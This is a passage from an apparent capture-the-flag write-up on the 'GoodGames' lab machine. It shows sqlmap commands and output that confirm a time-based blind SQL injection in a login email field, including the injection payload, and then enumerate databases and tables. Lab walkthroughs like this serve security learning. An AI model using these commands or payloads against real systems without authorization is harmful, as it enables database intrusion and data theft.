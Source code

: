 We see through this that it is injectable! Confirming our manual testing of course…
We also find the backend DB is MySql, now lets go further and use ..
sqlmap -r goodgames.req --dbs
​
We see the following output -
15:06:26] [INFO] parsing HTTP request from 'goodgames.req'
[15:06:26] [INFO] resuming back-end DBMS 'mysql' 
[15:06:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 1816 FROM (SELECT(SLEEP(5)))aFNv) AND 'MYhe'='MYhe&password=password
---
[15:06:26] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:06:26] [INFO] fetching database names
[15:06:26] [INFO] fetching number of databases
[15:06:26] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)             
[15:06:27] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[15:06:43] [INFO] retrieved: 
[15:06:48] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[15:07:47] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main


​
Key information here is the available db’s “main and information_schema” Naturally we look toward main to see what we can get into here 😀​
sqlmap -r goodgames.req -D main --tables
​
This command essentially enumerates table names within db’s so we can then go further and we get a juicy output 
fetching tables for database: 'main'
[15:11:27] [INFO] fetching number of tables for database 'main'
[15:11:27] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)             
[15:11:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:11:46] [INFO] adjusting time delay to 1 second due to good response times
3
[15:11:46] [INFO] retrieved: blog
[15:12:00] [INFO] retrieved: blog_comments
[15:12:38] [INFO] retrieved: user
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |